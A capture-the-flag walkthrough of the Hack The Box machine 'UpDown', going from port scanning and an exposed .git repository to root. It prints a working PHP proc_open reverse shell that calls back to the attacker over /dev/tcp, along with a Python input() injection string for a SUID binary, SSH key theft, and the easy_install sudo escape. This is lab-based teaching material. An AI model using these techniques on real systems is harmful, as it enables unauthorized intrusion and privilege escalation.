

# HTB - UpDown

#### Ip: 10.10.11.177
#### Name: UpDown
#### Rating: Medium

----------------------------------------------------------------------


### Enumeration

As always, lets kick things off by scanning all TCP ports with Nmap. Here I'll also use the `-sC` and `-sV` flags to use basic Nmap scripts and to enumerate versions too.

```text
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ sudo nmap -p- --min-rate 10000 10.10.11.177 -sC -sV 
Starting Nmap 7.93 ( https://nmap.org ) at 2024-02-01 16:42 CST
Nmap scan report for 10.10.11.177
Host is up (0.085s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.5 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 9e1f98d7c8ba61dbf149669d701702e7 (RSA)
|   256 c21cfe1152e3d7e5f759186b68453f62 (ECDSA)
|_  256 5f6e12670a66e8e2b761bec4143ad38e (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Is my Website up ?
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 18.34 seconds
```

Checking out the site on port 80 we find a page to check whether websites are up or not.



We also see the domain name siteisup.htb, so lets add that to `/etc/hosts`

Fuzzing for directories we find a `/.git` page at http://siteisup.htb/dev/.git/


Lets use git_dumper.py to copy these files back locally for inspection


We can run the command `git log` to see various commits:

```text
┌──(ryan㉿kali)-[~/HTB/UpDown/git]
└─$ git log                                                                                                   
commit 010dcc30cc1e89344e2bdbd3064f61c772d89a34 (HEAD -> main, origin/main, origin/HEAD)
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 19:38:51 2021 +0200

    Delete index.php

commit c8fcc4032487eaf637d41486eb150b7182ecd1f1
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 19:38:08 2021 +0200

    Update checker.php

commit f67efd00c10784ae75bd251add3d52af50d7addd
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 18:33:11 2021 +0200

    Create checker.php

commit ab9bc164b4103de3c12ac97152e6d63040d5c4c6
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 18:30:58 2021 +0200

    Update changelog.txt

commit 60d2b3280d5356fe0698561e8ef8991825fec6cb
Author: Abdou.Y <84577967+ab2pentest@users.noreply.github.com>
Date:   Wed Oct 20 18:30:39 2021 +0200

    Create admin.php
```

Scrolling through the various commits we find a few that seem interesting:


Taking a look at the commit updating the .htaccess file we see that we'll need to use a custom header to access the dev VHOST.


Fistly, lets add dev.siteisup.htb to `/etc/hosts`

We can confirm we get a 403 forbidden error:


Next we can head to Burp and add the custom header.

Lets go to Proxy > Settings > scroll down to "Match and Replace" and enter "Special-Dev: only4dev"


Clicking OK and intercepting a request on the dev site, we can now access http://dev.siteisup.htb/


Looks like we now have a file upload feature.

Going back to our git findings, we can see the blacklisted file extensions, as well as where files are being uploaded to:

```php
if($_POST['check']){
  
    # File size must be less than 10kb.
    if ($_FILES['file']['size'] > 10000) {
        die("File too large!");
    }
    $file = $_FILES['file']['name'];
    
    # Check if extension is allowed.
    $ext = getExtension($file);
    if(preg_match("/php|php[0-9]|html|py|pl|phtml|zip|rar|gz|gzip|tar/i",$ext)){
        die("Extension not allowed!");
    }
  
    # Create directory to upload our file.
    $dir = "uploads/".md5(time())."/";
    if(!is_dir($dir)){
        mkdir($dir, 0770, true);
    }
```

So looks like any PHP, Python, Perl, PHTML, etc shell we try to load here will be denied. 

We can try something that doesn't appear to be filtered like Ruby, but get an error:


We should probably also confirm the blacklisting is actually active by attempting to upload a forbidden extension:

Trying to upload a copy of php-reverse-shell.php we can see the blacklisting is hooked up and working:


We also can't try something like shell.PhP because the extension filter is using the `/i` flag making these rules case-insensitive.

Lets attempt to access the phpinfo.php page using phar wrappers.

First I'll create and zip the files I need:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ cat >> info.php 
<?php phpinfo(); ?>
^C
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ zip info.test info.php                 
  adding: info.php (stored 0%)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ file info.test 
info.test: Zip archive data, at least v1.0 to extract, compression method=store
```

I can now load my info.test file and see it was uploaded to `/uploads`


I can then access it with: http://dev.siteisup.htb/?page=phar://uploads/c3f4d354ef602dcc6c0964c8dccd3473/info.test/info

Showing me the phpinfo page:


Lets right click on the page and select "save page as". I'll save two copies, one phpinfo.php as well as phpinfo.html

Looking through the file we find a bunch of disabled functions.


This will make creating and executing a reverse shell or system commands more difficult.

With so many functions disabled, it will be easier to figure out what's not disabled, rather than focusing on what is. 

We can use https://github.com/teambi0s/dfunc-bypasser for that.

We can run the script using the `--file` flag to parse our phpinfo.php file:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ python2 dfunc-bypasser.py --file phpinfo.php


                                ,---,     
                                  .'  .' `\   
                                  ,---.'     \  
                                  |   |  .`\  | 
                                  :   : |  '  | 
                                  |   ' '  ;  : 
                                  '   | ;  .  | 
                                  |   | :  |  ' 
                                  '   : | /  ;  
                                  |   | '` ,/   
                                  ;   :  .'     
                                  |   ,.'       
                                  '---'         


            authors: __c3rb3ru5__, $_SpyD3r_$


Please add the following functions in your disable_functions option: 
proc_open
If PHP-FPM is there stream_socket_sendto,stream_socket_client,fsockopen can also be used to be exploit by poisoning the request to the unix socket
```

Cool, looks like the `proc_open` function is still open. Lets try exploiting this.

### Exploitation

Googling around on how to create a reverse shell using `proc_open` I find:

```php
<?php
$descriptorspec = array(
  0 => array('pipe', 'r'), // stdin
  1 => array('pipe', 'w'), // stdout
  2 => array('pipe', 'a') // stderr
);
$cmd = "/bin/bash -c '/bin/bash -i >& /dev/tcp/10.10.14.216/443 0>&1'";
$process = proc_open($cmd, $descriptorspec, $pipes, null, null);
?>
```

Lets save this as shell.php, zip it, and access it the same way we did phpinfo:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ zip shell.test shell.php
  adding: shell.php (deflated 38%)
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ file shell.test
shell.test: Zip archive data, at least v2.0 to extract, compression method=deflate
```

http://dev.siteisup.htb/?page=phar://uploads/d7277a23a231582b4878ef918bee690c/shell.test/shell

Uploading this and accessing it with phar we catch a shell back as www-data:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ nc -lnvp 443 
listening on [any] 443 ...
connect to [10.10.14.216] from (UNKNOWN) [10.129.227.227] 41974
bash: cannot set terminal process group (894): Inappropriate ioctl for device
bash: no job control in this shell
www-data@updown:/var/www/dev$ whoami
whoami
www-data
www-data@updown:/var/www/dev$ hostname
hostname
updown
```

But we still have no access to the user.txt flag:

```
www-data@updown:/home/developer$ cat user.txt 
cat: user.txt: Permission denied
```

Loading linpeas to help enumerate a lateral movement to user developer, we find a SUID in their home directory:


Looking at the folder we find two files:

```
www-data@updown:/home/developer/dev$ ls
siteisup  siteisup_test.py
```

We can see what siteisup_test.py is doing:

```python
import requests

url = input("Enter URL here:")
page = requests.get(url)
if page.status_code == 200:
    print "Website is up"
else:
    print "Website is down"
```

Looks like the script is importing request, sending a GET request, if it receives a 200 back the site is up, and anything else we get site is down.

These scripts are owned by user developer, and siteisup has the SUID bit set, so the script will run with their in their context with their permissions.

Normally I would try to create my own requests.py file, that way my script is called when the requests module is imported, but I don't have write access to the directory:

```
www-data@updown:/home/developer/dev$ cat >> requests.py
bash: requests.py: Permission denied
```

We can however use `os.system` and inject commands into the SUID:

```
www-data@updown:/home/developer/dev$ whoami
www-data
www-data@updown:/home/developer/dev$ ./siteisup
Welcome to 'siteisup.htb' application

Enter URL here:__import__('os').system('bash')
developer@updown:/home/developer/dev$ whoami
developer
```

Cool, that worked. 

Trying to grab the user.txt flag we get a permission denied because we are still in the www-data group:

```
developer@updown:/home/developer$ ls -la
total 40
drwxr-xr-x 6 developer developer 4096 Jul  2 16:24 .
drwxr-xr-x 3 root      root      4096 Jun 22  2022 ..
lrwxrwxrwx 1 root      root         9 Jul 27  2022 .bash_history -> /dev/null
-rw-r--r-- 1 developer developer  231 Jun 22  2022 .bash_logout
-rw-r--r-- 1 developer developer 3771 Feb 25  2020 .bashrc
drwx------ 2 developer developer 4096 Aug 30  2022 .cache
drwxrwxr-x 3 developer developer 4096 Aug  1  2022 .local
-rw-r--r-- 1 developer developer  807 Feb 25  2020 .profile
drwx------ 2 developer developer 4096 Aug  2  2022 .ssh
drwxr-x--- 2 developer www-data  4096 Jun 22  2022 dev
-rw-r----- 1 root      developer   33 Jul  2 13:42 user.txt
developer@updown:/home/developer$ cat user.txt
cat: user.txt: Permission denied
developer@updown:/home/developer$ id
uid=1002(developer) gid=33(www-data) groups=33(www-data)
```

Luckily for us we can access developer's id_rsa key and SSH in.

Lets copy the id_rsa over to our attacking machine, change modes, and ssh in as developer:

```
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ chmod 600 id_rsa    
                                                                                                                             
┌──(ryan㉿kali)-[~/HTB/UpDown]
└─$ ssh -i id_rsa developer@siteisup.htb 
Welcome to Ubuntu 20.04.5 LTS (GNU/Linux 5.4.0-122-generic x86_64)
```

We can now grab the user.txt flag:


### Privilege Escalation

Running `sudo -l` to see what developer can run with elevated permissions we find:

```
developer@updown:~$ sudo -l
Matching Defaults entries for developer on localhost:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin\:/snap/bin

User developer may run the following commands on localhost:
    (ALL) NOPASSWD: /usr/local/bin/easy_install
```

Heading to https://gtfobins.github.io/gtfobins/easy_install/#sudo we can grab the commands we'll need:


```
developer@updown:~$ TF=$(mktemp -d)
developer@updown:~$ echo "import os; os.execl('/bin/sh', 'sh', '-c', 'sh <$(tty) >$(tty) 2>$(tty)')" > $TF/setup.py
developer@updown:~$ sudo /usr/local/bin/easy_install $TF
```

This drops us into a root shell where we can grab the final flag:


Thanks for following along!

-Ryan

--------------------------------------------------------------
